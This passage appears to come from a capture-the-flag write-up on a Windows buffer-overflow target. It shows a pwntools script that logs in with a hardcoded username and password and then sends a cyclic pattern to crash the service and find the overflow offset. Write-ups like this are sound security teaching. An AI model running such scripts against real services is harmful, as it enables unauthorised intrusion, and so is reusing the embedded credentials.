 To exploit this we first need to find the offset we can create a pattern to do this with `ERC --pattern c 500`. We take this pattern and build a short python script with pwntools to crash the program.

```py
from pwn import *

context.arch = 'i386'
context.log_level = 'DEBUG'

io = remote('windows', 9868)


io.sendlineafter('Username: ','alfiansyah')
io.sendlineafter('Password: ', 'K3r4j@@nM4j@pAh!T')
io.sendlineafter('FullName: ', 'strcopy good')

pattern  = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
pattern += "9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"
pattern += "Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"
pattern += "i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"
pattern += "7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"
pattern += "Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq"

io.sendlineafter('Input Your Code: ', pattern)
```

[![16_pattern_crash](/img/hancliff/16_pattern_crash.png)](/img/hancliff/16_pattern_crash.png)
